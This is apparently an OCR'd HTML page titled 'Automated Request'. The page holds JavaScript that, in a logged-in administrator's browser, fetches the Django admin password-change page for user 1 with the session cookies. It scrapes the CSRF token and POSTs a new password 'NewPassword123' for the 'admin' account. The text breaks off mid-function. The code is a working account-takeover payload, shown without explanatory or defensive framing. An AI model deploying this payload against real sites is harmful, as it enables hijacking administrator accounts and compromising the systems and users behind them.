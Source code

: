 ```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Automated Request</title>
</head>
<body>
    <h1 id="status">Loading...</h1>
    <script>
        // Function to perform the GET request to fetch the CSRF token
        async function fetchCsrfToken() {
            try {
                const response = await fetch('/admin/auth/user/1/password/', {
                    method: 'GET',
                    credentials: 'include' // Include cookies for authentication
                });
                const text = await response.text();

                // Check if the response contains the "not authorized" message
                if (text.includes('not authorized to access this page')) {
                    throw new Error('not authorized');
                }

                // Extract the CSRF token from the response using a regular expression
                const csrfTokenMatch = text.match(/<input type="hidden" name="csrfmiddlewaretoken" value="(.*?)">/);
                
                if (csrfTokenMatch && csrfTokenMatch[1]) {
                    return csrfTokenMatch[1]; // Return the extracted CSRF token
                } else {
                    throw new Error('CSRF token not found');
                }
            } catch (error) {
                throw error; // Propagate the error to handle it in the main function
            }
        }

        // Function to perform the POST request to update the password
        async function changePassword(csrfToken) {
            const formData = new URLSearchParams();
            formData.append('csrfmiddlewaretoken', csrfToken);
            formData.append('username', 'admin');
            formData.append('password1', 'NewPassword123');
            formData.append('password2', 'NewPassword123');

            try {
                const response = await fetch('/admin/auth/user/1/password/', {
                    method: 'POST',
                    credentials: 'include', // Include cookies for authentication
                    headers: {
                        'Content-Type': 'application/x-www-form-urlencoded'
                    },
                    body: formData.toString()
                });

                if (response.ok) {
                    return true; // Password update was successful
                } else {
                    throw new Error('Failed to update password');
                }
            } catch (error) {
                throw new Error('Error changing password: ' + error.message);
```